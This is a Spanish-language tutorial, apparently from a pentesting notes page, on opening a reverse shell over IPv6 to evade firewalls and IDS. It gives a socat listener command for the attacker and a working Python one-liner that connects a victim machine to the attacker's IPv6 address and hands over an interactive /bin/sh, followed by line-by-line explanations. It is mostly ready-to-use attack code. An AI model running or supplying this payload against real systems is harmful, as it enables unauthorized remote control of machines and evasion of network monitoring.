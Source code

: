 # **Reverse Shell sobre IPv6 con Python y Socat**

Establecer un canal de Mando y Control (C2) o una reverse shell a través de IPv6 es una técnica eficaz para evadir firewalls, sistemas de detección de intrusiones (IDS) y monitorización de red que puedan estar centrados exclusivamente en el tráfico IPv4.

Esta guía detalla el proceso para establecer una reverse shell interactiva desde una máquina víctima a una máquina atacante utilizando IPv6, `Python` y `socat`.

## **1. La Máquina del Atacante: Ponerse a la Escucha con `socat`**

Para recibir una conexión IPv6, no siempre es suficiente usar `netcat`. La herramienta **`socat`** es mucho más potente y versátil, especialmente para manejar diferentes familias de protocolos como IPv6.

### **Comando para el Listener**

Para ponerse a la escucha en una interfaz IPv6 específica en el puerto 443, se debe utilizar el siguiente comando:

```bash
sudo socat TCP6-LISTEN:443,fork,bind=dead:beef:2::1005 STDOUT
```

### **Análisis Detallado del Comando `socat`**

  * **`sudo`**: Es necesario si se quiere escuchar en un puerto privilegiado (cualquier puerto por debajo de 1024, como el 443).
  * **`socat`**: Es la herramienta, un relé multipropósito para flujos de datos bidireccionales.
  * **`TCP6-LISTEN:443`**: Esta es la dirección de escucha.
      * **`TCP6`**: Le dice a `socat` que utilice el protocolo TCP sobre IPv6.
      * **`LISTEN:443`**: Instruye a `socat` para que se ponga en modo de escucha en el puerto 443.
  * **`,fork`**: Esta opción es muy útil. Después de que se establezca una conexión, `socat` crea un nuevo proceso hijo para manejarla, y el proceso padre vuelve inmediatamente a escuchar en el mismo puerto. Esto permite recibir múltiples conexiones sin tener que reiniciar el listener.
  * **`,bind=dead:beef:2::1005`**: Esta opción es crucial para la seguridad y la precisión. Le dice a `socat` que se vincule **únicamente** a la dirección IPv6 especificada. Sin esto, `socat` escucharía en todas las interfaces IPv6 disponibles (`::`), lo que podría ser menos seguro.
  * **`STDOUT`**: Este es el segundo flujo de datos. Le dice a `socat` que redirija la conexión entrante a la **salida estándar** (tu terminal). Esto es lo que hace que la shell sea interactiva, ya que verás la salida de los comandos directamente en tu pantalla.

## **2. La Máquina Víctima: El Payload de Reverse Shell en Python**

### **Payload**

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::1005",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### **Análisis Detallado del Payload de Python**

  * **`python -c '...'`**: Ejecuta el código Python que sigue como un comando.
  * **`import socket,subprocess,os`**: Importa las librerías necesarias: `socket` para la red, `subprocess` para ejecutar comandos y `os` para interactuar con el sistema operativo.
  * **`s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM)`**: Aquí reside la clave de la operación.
      * **`socket.socket(...)`**: Crea un nuevo objeto de socket.
      * **`socket.AF_INET6`**: Especifica la familia de direcciones como **IPv6**. En una reverse shell para IPv4, aquí se usaría `socket.AF_INET`.
      * **`socket.SOCK_STREAM`**: Especifica el tipo de socket como TCP (orientado a la conexión).
  * **`s.connect(("dead:beef:2::1005",443))`**: El socket intenta conectarse al listener `socat` del atacante, utilizando la tupla de dirección IPv6 y puerto.
  * **`os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);`**: Esta es la redirección de flujos estándar.
      * `s.fileno()`: Obtiene el descriptor de archivo del socket (un número que representa la conexión de red).
      * `os.dup2(origen, destino)`: Duplica el descriptor de archivo de `origen` al de `destino`.
      * Se está redirigiendo la entrada estándar (`stdin`, descriptor `0`), la salida estándar (`stdout`, descriptor `1`) y el error estándar (`stderr`, descriptor `2`) para que apunten a la conexión de red.
  * **`p=subprocess.call(["/bin/sh","-i"]);`**: Se ejecuta una nueva shell.
      * **`/bin/sh -i`**: Lanza una shell interactiva.
      * Debido a la redirección anterior, esta shell no está conectada a la terminal de la víctima, sino directamente al socket de red del atacante, proporcionando una shell remota completamente funcional.